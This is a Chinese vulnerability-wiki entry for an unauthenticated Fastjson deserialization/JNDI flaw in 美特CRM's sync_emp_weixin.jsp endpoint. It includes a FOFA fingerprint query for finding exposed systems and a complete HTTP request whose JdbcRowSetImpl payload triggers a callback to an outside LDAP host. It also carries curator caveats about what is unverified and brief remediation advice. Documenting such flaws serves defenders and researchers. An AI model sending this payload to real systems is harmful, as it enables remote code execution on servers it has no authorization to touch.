


# 美特CRM sync_emp_weixin emp_json反序列化/JNDI

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## 条目说明

- 对象与具体问题：美特CRM；sync_emp_weixin emp_json反序列化/JNDI
- 版本、配置及部署条件：未知版本，Fastjson/JDK自动类型与出网条件待核
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- JdbcRowSetImpl数组类型畸形JSON样式可能是版本相关解析绕过，不应无证据擅自修成普通JSON，需原理和组件版本
- 仅LDAP回连不证明代码执行；第三方eyes.sh地址属于原实验环境，不能把查询当作验证
- 目录美特与美特CRM分裂，统一产品；无明文响应/补丁，泛化在野状态无依据

## 操作风险

命令/代码执行示例可能改变主机状态；在线解密或外部服务可能收到凭据及敏感内容。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

美特CRM sync_emp_weixin存在反序列化漏洞，未经身份验证攻击者可执行危险代码，获取系统权限，导致网站处于极度不安全状态。

## 影响版本

美特CRM

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/common/scripts/basic.js" && icon_hash="-932760915"

POC/EXP：

```http
GET /weixin/admin/sync_emp_weixin.jsp?emp_json=[{%22@type%22:%22[com.sun.rowset.JdbcRowSetImpl%22[{,%22dataSourceName%22:%22ldap://ueychday.eyes.sh%22,%22autoCommit%22:true}] HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```








## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
